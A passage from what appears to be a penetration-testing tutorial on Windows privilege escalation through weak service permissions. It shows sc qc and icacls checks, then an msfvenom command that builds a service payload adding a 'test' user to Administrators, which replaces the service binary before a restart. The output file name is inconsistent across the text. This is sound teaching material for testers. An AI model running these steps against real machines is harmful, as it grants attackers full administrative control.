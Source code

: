 Suppose you find any service running on the target with higher privilege
and write permission on its executable binary. By replacing the service
executable with a malicious executable, it is possible to gain higher
privilege.

Check if any services are running with higher privilege:

sc qc \<service name\>

![high privilege
check](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image14.png){width="6.5in"
height="2.3055555555555554in"}

demosvc3 service is running as
[[LocalSystem]{.underline}](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account)
privilege. LocalSystem account is a wholly trusted account, and it has
extensive privilege on the local system.

Automated scan result shows that, Everyone has Full Access.\
![Automated
scan](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image17.png){width="6.5in"
height="1.1111111111111112in"}

Manually you can check permissions using icacls/cacls:\
![manual
scan](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image6.png){width="6.5in"
height="0.7916666666666666in"}

It shows everyone has Full permission. Let's generate demoservice3.exe
using msfvenom and replace it with the original one.

msfvenom -p windows/exec CMD=\"net localgroup administrators test /add\"
-f exe-service -o demo3service.exe

The generation of the above shellcode demonstrates adding a user "test"
under the Administrators group. The switch -f stands for the file type
exe-service and -o for the output of the file along with the filename
Unquoted.exe.

net stop demosvc3

net start demosvc3

Upon restarting this service, test users added to the Administrators
group.

![Test users in Administrators
group](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image2.png){width="6.5in"
height="5.708333333333333in"}

## Insecure write permission on config file

If you have write permission on the service configuration file, you can
change the service binary path to a malicious executable.
